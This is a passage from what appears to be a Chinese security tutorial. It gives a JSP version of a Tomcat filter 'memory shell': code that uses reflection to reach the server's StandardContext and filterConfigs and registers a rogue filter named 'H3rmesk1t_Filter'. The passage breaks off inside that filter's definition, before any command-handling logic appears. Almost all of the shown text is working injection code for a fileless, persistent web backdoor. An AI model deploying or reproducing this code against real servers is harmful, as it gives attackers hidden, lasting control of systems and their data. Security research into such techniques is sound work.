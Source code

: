 <div align=center><img src="./images/27.png"></div>

### JSP版本

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.PushbackInputStream" %><%--
  Created by IntelliJ IDEA.
  User: h3rmesk1t
  Date: 2022/8/15
  Time: 1:32 下午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
  <head>
    <title>Filter</title>
  </head>
  <body>
    <%
      Field requestFiled = request.getClass().getDeclaredField("request");
      requestFiled.setAccessible(true);
      Request req = (Request) requestFiled.get(request);
      StandardContext standardContext = (StandardContext) req.getContext();

      Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
      configs.setAccessible(true);
      Map filterConfigs = (Map) configs.get(standardContext);

      String FilterName = "H3rmesk1t_Filter";
      if (filterConfigs.get(FilterName) == null) {
        Filter filter = new Filter() {
          @Override
          public void init(FilterConfig filterConfig) {

          }

          @Override
```